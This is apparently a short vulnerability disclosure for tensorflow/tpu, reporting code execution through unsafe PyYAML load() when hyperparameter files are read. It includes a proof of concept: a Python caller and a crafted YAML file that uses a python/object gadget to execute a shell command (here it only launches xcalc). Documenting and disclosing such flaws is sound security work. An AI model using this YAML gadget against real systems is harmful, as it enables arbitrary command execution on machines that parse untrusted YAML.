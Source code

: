 # Description
**Arbitrary Code Excecution** in tensorflow/tpu.This repository is a collection of reference models and tools used with Cloud TPUs
# Technical Description
This package was vulnerable to Arbitrary code execution due to a use of a known vulnerable function **load()** in **pyyaml**
# Exploit code
**Python File**
```python
import params_dict
exploit = params_dict.read_yaml_to_params_dict('exploit.yml')
print(exploit)
```
**YAML File**
```yml
!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
```
# POC
* place the exploit codes **models/hyperparameters**
* Run the python code 

![](https://cdn.discordapp.com/attachments/749019614352244777/784023167470796810/Screenshot_from_2020-12-03_17-17-46.png)
